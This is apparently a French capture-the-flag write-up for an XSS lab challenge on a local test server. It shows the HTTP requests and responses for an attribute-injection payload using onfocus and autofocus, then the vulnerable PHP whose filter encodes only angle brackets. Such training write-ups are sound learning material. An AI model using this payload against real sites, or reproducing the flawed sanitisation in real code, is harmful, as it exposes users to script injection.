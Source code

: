 # xss5

## Exploitation

Cinquième challenge. L'auteur indique qu'il encode maintenant les caractères `<` et `>` :&#x20;

![](<../../../.gitbook/assets/image (9) (3).png>)

Je tente la payload `<script>alert(1)</script>` afin de vérifier l'encodage. Le mot clé n'est pas réfléchi dans le message d'erreur mais en tant que valeur de l'attribut HTML `value` :&#x20;

![](<../../../.gitbook/assets/image (20).png>)

Et les chevrons sont encodés en entités HTML :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=%3Cscript%3Ealert%281%29%3C%2F%3Cscript%3E&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2159
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="&lt;script&gt;alert(1)&lt;/&lt;script&gt;" placeholder="keyword" required>
</div>
```

Seulement les chevrons sont encodés, il m'est alors possible de réutiliser la même technique d'attaque qu'au challenge xss2, `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+x%3D%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2160
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :

![](<../../../.gitbook/assets/image (49).png>)

## Analyse du code source

Le mot clé est bien réfléchi en tant que valeur de l'attribut HTML `value` mais un assainissement est tout d'abord effectué grâce à la méthode `xss_check()`. Cette méthode remplace les chevrons `<` et `>` en entités HTML :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
